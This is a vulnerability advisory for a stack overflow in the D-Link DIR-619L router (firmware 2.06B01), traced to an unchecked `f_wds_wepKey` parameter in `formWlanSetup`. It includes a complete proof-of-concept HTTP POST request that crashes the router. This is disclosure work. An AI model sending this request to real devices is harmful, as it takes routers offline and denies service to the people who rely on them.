

# D-Link Vulnerability

Vendor:D-Link

Product:DIR619L

Version:2.06B01

Type:Stack Overflow

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)


## Vulnerability description

We found an stack overflow vulnerability in D-Link router with firmware which was released recently, allows remote attackers to crash the server.

**Stack Overflow**

In `boa` binary:

In the router's `formWlanSetup` function, `f_wds_wepKey` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow, so we can control the `f_wds_wepKey` to execute arbitrary code.

As you can see here, the input has not been checked. The parameter `f_wds_wepKey` is directly copy to a local variable placed on the stack, which overrides the return address of the function, causing buffer overflow.

<div  align="center"></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.


## PoC

We set `f_wds_wepKey` as **aaaaa......,** , and the router will crash, such as:

```http
POST /goform/formWlanSetup HTTP/1.1
Host: 192.168.100.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 3063
Origin: http://192.168.100.1
Connection: close
Referer: http://192.168.100.1/Basic/Wireless.asp?t=1749224197237
Upgrade-Insecure-Requests: 1

ACTION_POST=final&f_wireless_mode=7&f_enable=1&f_wps_enable=0&f_ssid=D-Link_DIR-619L&f_channel=6&f_auto_channel=1&f_wmm_enable=1&f_ap_hidden=0&f_authentication=6&f_wep_auth_type=&f_cipher=3&f_wep_len=&f_wep_format=&f_wep_def_key=&f_wep=&f_wpa_psk_type=2&f_wpa_psk=abc123123123&f_radius_ip1=&f_radius_port1=&f_radius_secret1=&f_wdsMac_1=&f_wdsMac_2=&f_wdsMac_3=&f_wdsMac_4=&f_wdsMac_5=&f_wdsMac_6=&f_wdsMac_7=&f_wdsMac_8=&f_wds_encryptMode=1&f_wds_wds_formateMode=1&f_wds_wepKey=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&f_wds_pskFormat=&f_wds_wdspskValue=&config.wan_secondary_dns=&config.wan_primary_dns=&mac_clone=&wisp_wan_ip_mode=&f_d_hostname=&f_mtu=&f_s_wan_ip=&f_s_wan_mask=&f_s_wan_gw=&config.pppoe_username=&config.pppoe_password=&config.pppoe_service_name=&pppoe_reconnect_mode_radio=&config.pppoe_max_idle_time=&config.pppoe_use_dynamic_address=&config.pppoe_ip_address=&ppp_schedule_control_0=&config.wan_mtu=&pppoe_use_dynamic_dns_radio=&wan_pptp_use_dynamic_carrier_radio=&config.wan_pptp_username=&config.wan_pptp_password=&pptp_reconnect_mode_radio=&config.wan_pptp_max_idle_time=&config.wan_pptp_ip_address=&config.wan_pptp_server=&config.wan_pptp_subnet_mask=&config.wan_pptp_gateway=&wan_l2tp_use_dynamic_carrier_radio=&config.wan_l2tp_username=&config.wan_l2tp_password=&l2tp_reconnect_mode_radio=&config.wan_l2tp_max_idle_time=&config.wan_l2tp_ip_address=&config.wan_l2tp_server=&config.wan_l2tp_subnet_mask=&config.wan_l2tp_gateway=&settingsChanged=1&webpage=%2FBasic%2FWireless.asp
```


## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"></div>
